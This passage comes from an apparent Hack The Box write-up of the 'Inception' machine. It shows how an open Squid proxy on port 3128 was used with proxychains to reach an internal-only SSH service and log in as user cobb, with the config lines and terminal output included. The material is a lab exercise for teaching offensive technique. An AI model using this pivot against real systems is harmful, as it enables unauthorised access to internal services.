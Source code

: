 ### Exploiting Squid Proxy
After obtaining the password, we realize that we are unable to find anywhere to use the password on. Let us use the ```netstat -an``` command to find any internal service that is running which we might be able to make use of. From the output, we can see that port 22 is running in the internal IP but not exposed to the external service.

![Finding SSH service on the internal IP](https://github.com/joelczk/writeups/blob/main/HTB/Images/Inception/ssh.png)

However, we know that the Squid proxy is open on port 3128. This means that we can make use of the Squid proxy to access the service on the internal IP address of this machine. 

To do so, we will have to first modify the /etc/proxychains4.conf file on our local machine to add the Squid proxy.

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
http 10.10.10.67 3128
```

Using proxychains, we are then able to gain SSH access as cobb user

```
┌──(kali㉿kali)-[/etc]
└─$ proxychains ssh cobb@127.0.0.1                                                                 2 ⚙
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.67:3128  ...  127.0.0.1:22  ...  OK
cobb@127.0.0.1's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Nov 30 20:06:16 2017 from 127.0.0.1
cobb@Inception:~$ 
```
### Obtaining user flag
